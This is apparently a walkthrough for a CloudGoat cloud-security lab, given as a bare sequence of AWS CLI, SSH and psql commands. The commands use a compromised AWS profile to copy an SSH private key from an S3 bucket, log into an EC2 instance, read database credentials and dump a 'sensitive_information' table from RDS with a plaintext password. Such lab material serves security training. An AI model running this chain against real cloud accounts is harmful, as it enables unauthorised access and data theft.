 `aws configure --profile McDuck`

`aws s3 ls --profile McDuck`

`aws s3 ls s3://<bucket> --recursive --profile McDuck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile McDuck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile McDuck`

`aws ec2 describe-instances --profile McDuck`

`chmod 400 cloudgoat`

`ssh -i cloudgoat ubuntu@<ec2_ip>

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat`

`\dt`

`select * from sensitive_information;`
